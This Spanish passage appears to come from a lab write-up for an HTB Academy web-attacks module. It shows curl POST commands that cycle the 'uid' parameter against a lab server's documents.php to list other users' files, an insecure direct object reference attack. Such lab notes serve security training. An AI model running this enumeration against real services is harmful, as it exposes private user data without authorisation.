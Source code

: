 Puedo hacer un curl al servidor y filtrar por <li class="pure-tree_link"> para obtener la lista de los enlaces.

```sh
curl -s -X $'POST' -H $'Host: 94.237.48.35:46523' --data-binary $'uid=1' $'http://94.237.48.35:46523/documents.php' | grep "<li class='pure-tree_link'>"
```

![alt text](../assets/images/HTB_Academy_Web_Attacks/image-32.png)

Si voy cambiando el valor de uid obtengo los nombres de los ficheros en el listado para cada uid

```sh
curl -s -X $'POST' -H $'Host: 94.237.48.35:46523' --data-binary $'uid=1' $'http://94.237.48.35:46523/documents.php' | grep "<li class='pure-tree_link'>"
curl -s -X $'POST' -H $'Host: 94.237.48.35:46523' --data-binary $'uid=2' $'http://94.237.48.35:46523/documents.php' | grep "<li class='pure-tree_link'>"
curl -s -X $'POST' -H $'Host: 94.237.48.35:46523' --data-binary $'uid=3' $'http://94.237.48.35:46523/documents.php' | grep "<li class='pure-tree_link'>"
```
